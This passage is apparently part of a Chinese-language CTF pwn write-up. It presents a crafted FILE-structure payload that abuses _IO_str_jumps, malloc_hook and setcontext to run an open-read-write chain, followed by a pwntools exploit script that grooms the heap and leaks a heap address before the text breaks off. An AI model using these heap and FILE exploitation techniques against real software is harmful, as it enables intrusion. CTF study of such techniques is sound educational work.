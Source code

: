 这一部分的关键payload如下，需要绕过那些关键check都在下面做了相关注释：

```
payload = b'\x00'*0x28#把flag处的值设置为\x00,绕过代码中的很多check
#fp-&gt;_mode &lt;= 0 &amp;&amp; fp-&gt;_IO_write_ptr &gt; fp-&gt;_IO_write_base)
payload += p64(stdin + 0xe0)#_IO_write_ptr &amp;&amp; rdi+0x28--&gt;rdx 
payload = payload.ljust(0xd8,b'\x00')
payload += p64(libcbase + 0x1ed560)#_IO_str_jumps 为了执行的是_IO_str_overflow
payload += orw
payload = payload.ljust(0x1f0,b'\x00')
payload += p64(libcbase+0x0000000000580DD)#malloc_hook--&gt;set_context
```

### <a class="reference-link" name="0x02%20myexp"></a>0x02 myexp

具体的exp如下所示：

```
from pwn import *
context.log_level='debug'

def debug():
    print(pidof(p))
    pause()

def choice(i):
    p.sendlineafter('choice:',str(i))

def add(n,s):
    choice(1)
    p.sendlineafter('Size of info:',str(n))#n&lt;=0x200
    p.sendafter('Info:',s)

def show(i):
    choice(2)
    p.sendlineafter('index:',str(i))
    choice(2)

def edit(i,s):
    choice(2)
    p.sendlineafter('index:',str(i))
    choice(1)
    p.sendafter('Info:',s)

#libc.so is correct
#p=remote('139.217.102.146',65386)
p=process('./pwn')
libc=ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')
for i in range(0x8):
    add(0x1f0,b'a'*0x1f0)
add(0x60+0x1a0,b'a'*0x60)#index=8 size=0x70
add(0x10,b'a'*0x10)#index=9 size=0x20
add(0x1f0,b'a'*0x1f0)#index=10 size=0x210
add(0x1f0,b'a'*0x1e0 + b'./flag\x00')#index=11 size=0x210
add(0x200,b'a'*0x200)#index=12

#leak heap address
show(0)
show(1)
add(0x1f0,b'a')
show(0)
p.recvuntil('a')
heap=u64((b'\x00'+p.recv(5)).ljust(8,b'\x00'))-(0x0000563c8e9c1200-0x563c8e9c1000)
log.success('heap address--&gt;'+ hex(heap))
```